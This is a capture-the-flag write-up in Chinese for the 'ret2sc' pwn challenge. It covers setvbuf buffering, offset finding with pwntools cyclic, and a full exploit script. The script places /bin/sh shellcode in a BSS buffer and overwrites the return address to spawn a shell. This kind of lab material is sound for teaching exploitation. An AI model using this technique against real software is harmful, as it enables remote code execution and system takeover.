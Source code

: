 ## 先備知識

### setvbuf()

`int setvbuf(FILE *stream, char *buffer, int mode, size_t size)`

定義了stream的buffer怎麼被緩衝

- buffer 分配的緩衝區，如果是NULL會自動分配
- mode 0: FUll  buffering、1: Line buffering、2: No buffering
- size 單個緩衝區大小

這裡使用setvbuf(stdout, 0, 2, 0)設定為無緩衝

## Solve

### 分析

有兩個input，其中`name`為全域變數存放在BSS區段，而`buf`則存放在stack中

### how to find offest

from pwn import *

cyclic(100)

cyclic_find("<return overflow string>")

### 解題策略

將shellcode塞在name中，並且利用BOF將return的值蓋掉，跳轉到name的地方。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./ret2sc')
name = 0x804a060 # address of name (BSS) where we are going to placed return 
r.recvuntil(":")
r.sendline(asm(shellcraft.sh())) # /bin/shell shellcode
r.recvuntil(":")
payload = "a"*32 # buffer size 
payload += p32(name) # overflow return 
r.sendline(payload)

r.interactive()
```
